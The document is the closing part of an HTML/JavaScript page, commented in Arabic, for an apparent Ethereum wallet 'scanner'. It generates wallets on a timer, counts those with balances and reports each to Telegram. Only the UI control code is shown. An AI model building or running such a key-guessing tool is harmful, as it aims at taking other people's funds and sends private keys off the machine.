                resultsDiv.innerHTML = '<div class="status success">✅ تم إرسال المحفظة إلى التلجرام</div>';
                updateStats();
            } catch (error) {
                console.error('خطأ في توليد المحفظة:', error);
                resultsDiv.innerHTML = '<div class="status error">❌ خطأ في توليد المحفظة: ' + error.message + '</div>';
            }
        }

        // بدء المسح المستمر
        function startContinuousScanning() {
            if (isScanning) return;
            
            isScanning = true;
            document.getElementById('scanBtn').disabled = true;
            document.getElementById('stopBtn').disabled = false;
            
            const interval = parseInt(document.getElementById('scanInterval').value) * 1000;
            
            scanInterval = setInterval(async () => {
                await generateSingleWallet();
            }, interval);
            
            // تشغيل أول محفظة فوراً
            generateSingleWallet();
        }

        // إيقاف المسح
        function stopScanning() {
            if (!isScanning) return;
            
            isScanning = false;
            document.getElementById('scanBtn').disabled = false;
            document.getElementById('stopBtn').disabled = true;
            
            if (scanInterval) {
                clearInterval(scanInterval);
                scanInterval = null;
            }
            
            const resultsDiv = document.getElementById('results');
            resultsDiv.innerHTML = '<div class="status success">⏹️ تم إيقاف المسح.</div>' + resultsDiv.innerHTML;
        }

        // مسح النتائج
        function clearResults() {
            if (confirm('هل أنت متأكد من مسح جميع النتائج؟')) {
                document.getElementById('results').innerHTML = '<div class="status info">تم مسح النتائج. اضغط على أحد الأزرار أعلاه لبدء فحص المحافظ.</div>';
                totalScanned = 0;
                walletsWithBalance = 0;
                totalEthFound = 0;
                updateStats();
            }
        }

        // حفظ إعدادات المسح في localStorage
        function saveSettings() {
            const settings = {
                scanInterval: document.getElementById('scanInterval').value
            };
            localStorage.setItem('cryptoScannerSettings', JSON.stringify(settings));
        }

        // تحميل إعدادات المسح من localStorage
        function loadSettings() {
            const saved = localStorage.getItem('cryptoScannerSettings');
            if (saved) {
                const settings = JSON.parse(saved);
                document.getElementById('scanInterval').value = settings.scanInterval || '5';
            }
        }

        // حفظ الإعدادات عند التغيير
        document.addEventListener('DOMContentLoaded', function() {
            loadSettings();
            
            // حفظ إعدادات المسح عند التغيير
            document.getElementById('scanInterval').addEventListener('change', saveSettings);
        });

        // تحديث النص على الزر
        setInterval(() => {
            if (isScanning) {
                const btn = document.getElementById('scanBtn');
                btn.innerHTML = btn.innerHTML.includes('🔄') ? '⏳ جاري المسح...' : '🔄 جاري المسح...';
            }
        }, 1000);
    </script>
</body>
</html>
